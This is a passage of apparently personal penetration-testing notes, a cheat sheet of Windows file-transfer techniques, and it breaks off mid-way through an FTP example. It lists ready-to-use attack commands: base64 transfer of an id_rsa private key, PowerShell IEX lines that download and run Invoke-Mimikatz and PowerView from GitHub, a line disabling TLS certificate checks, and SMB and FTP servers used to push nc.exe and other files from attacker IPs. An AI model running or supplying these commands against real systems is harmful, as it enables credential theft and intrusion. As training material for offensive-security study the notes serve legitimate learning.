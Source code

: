 ## File Transfers

### Windows

- md5sum id_rsa
- cat id_rsa |base64 -w 0;echo
- [IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String("bas64string"))
- Get-FileHash C:\Users\Public\id_rsa -Algorithm md5
- PowerShell Web Downloads
    - (New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
    - (New-Object Net.WebClient).DownloadFile('172.16.5.15:1234/windows/agent-amd64.exe','agent-amd64.exe')
    - (New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')
    - IEX (New-Object Net.WebClient).DownloadString('[https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1](https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1)')
    - (New-Object Net.WebClient).DownloadString('[https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1](https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1)') | IEX
    - Invoke-WebRequest [https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1) -OutFile PowerView.ps1
    - Bypassing errors
        - Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX
        - [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
- SMB Downloads
    - Server - sudo impacket-smbserver share -smb2support /tmp/smbshare
    - copy \\192.168.220.133\share\nc.exe
    - sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
    - net use n: \\192.168.220.133\share /user:test test
    - copy n:\nc.exe
    - Note: You can also mount the SMB server if you receive an error when you use `copy filename \\\\IP\\sharename`.
- FTP Downloads
    - sudo pip3 install pyftpdlib
    - sudo python3 -m pyftpdlib --port 21
    - (New-Object Net.WebClient).DownloadFile('[ftp://192.168.49.128/file.txt](ftp://192.168.49.128/file.txt)', 'C:\Users\Public\ftp-file.txt')
    - Create a Command File for the FTP Client and Download the Target File
    
    ```bash
    C:\htb> echo open 192.168.49.128 > ftpcommand.txt
    C:\htb> echo USER anonymous >> ftpcommand.txt
    C:\htb> echo binary >> ftpcommand.txt
    C:\htb> echo GET file.txt >> ftpcommand.txt
    C:\htb> echo bye >> ftpcommand.txt
    C:\htb> ftp -v -n -s:ftpcommand.txt
    ftp> open 192.168.49.128
    Log in with USER and PASS first.
    ftp> USER anonymous
    